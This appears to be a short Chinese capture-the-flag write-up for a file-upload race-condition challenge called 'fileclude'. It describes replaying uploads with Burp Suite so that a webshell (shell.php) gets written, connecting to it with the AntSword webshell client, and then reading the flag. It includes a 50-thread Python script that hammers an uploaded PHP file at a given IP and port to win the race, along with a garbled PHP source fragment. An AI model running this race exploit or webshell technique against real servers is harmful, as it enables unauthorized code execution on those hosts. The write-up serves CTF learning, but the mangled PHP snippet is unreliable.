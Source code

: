 # fileclude
网页源码

```php
WRONG WAY! 
`<?php                                                                                                                     ?>'); ?>
```
在burpsuite内嵌浏览器上传文件抓包
之后使用攻击器进行多次文件上传
使用null payloads
使用burpsuite构造多次访问攻击
![](图片/Pasted%20image%2020241222000053.png)
![](图片/Pasted%20image%2020241221235032.png)
访问成功后使用蚁剑访问shell.php
找到flag
![](图片/Pasted%20image%2020241221235325.png)

提供脚本解

```python
import requests
import threading
import os

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)

        self.url = 'http://61.147.171.105:57003/upload/a.php'

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print(r.text)
            os._exit(0)

    def run(self):
        while True:
            for i in range(5):
                self._get()

            for i in range(10):
                self._get()

if __name__ == '__main__':
    threads = 50

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```














